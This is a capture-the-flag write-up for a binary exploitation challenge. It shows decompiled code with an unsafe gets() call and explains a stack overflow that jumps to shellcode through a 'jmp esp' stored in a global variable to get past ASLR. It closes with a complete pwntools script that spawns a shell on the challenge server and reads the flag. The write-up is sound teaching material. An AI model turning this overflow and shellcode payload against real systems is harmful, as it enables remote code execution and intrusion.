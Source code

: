 We have a program that asks for a name and a number.
The program prints the name and specifies if the number was odd or even.

If we generate the pseudocode for the program in IDA, we get :

```
	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  int v4; // [sp+10h] [bp-20h]@1

	  puts("What's your name?");
	  fflush(stdout);
	  gets((char *)&v4);
	  puts("What's your favorite number?");
	  fflush(stdout);
	  __isoc99_scanf("%d", &meow);
	  if ( meow & 1 )
	  {
	    printf("Hello %s, %d is an odd number!\n", &v4, meow);
	    fflush(stdout);
	  }
	  else
	  {
	    printf("Hello %s, %d is an even number!\n", &v4, meow);
	    fflush(stdout);
	  }
	  return 0;
	}
```

Since the name is retrieved with scanf, we can easily write shellcode in the buffer,
overflow the buffer and overwrite the return address in memory after the buffer to
jump to the shellcode (to start /bin/sh) in the buffer. 

However, ASLR is enabled on the server so we cannot hardcode a value to jump to in
the stack. 

Since meow function is global, its address will not change even with ASLR and we can write 
instructions in this variable and use its address as the return address. If we write "jmp esp"
in meow and overwrite the return address with the address of meow (0x804A048), we can execute
"jmp esp" to jump on the stack to our shellcode.

Since the size of the buffer is 32 bytes, we write 32 nops to fill the buffer, then the address
of meow 4 times make sure to overwrite it (it is actually overwritten the 4th time), then some
nops for safety and then our shellcode. The "jmp esp" will actually jump after our buffer because
the stack pointer (esp) is decremented to pop the local variables before main exits.


The following python script retrieves the flag :

	from pwn import *

	meow_address = 0x804A048
	shellcode = asm(shellcraft.sh())
	buf = '\x90'*32 + p32(meow_address)*4 + '\x90'*32 + shellcode

	number = str(0x4040e4ff)#asm('jmp esp')) + 'AA'

	with remote('130.211.202.98', 7575) as p:
		print p.recvuntil('name?')
		p.sendline(buf)
		print p.recvuntil('number?')
		p.sendline(number)
		p.sendline('cat flag.txt')
		print p.recvuntil('}')

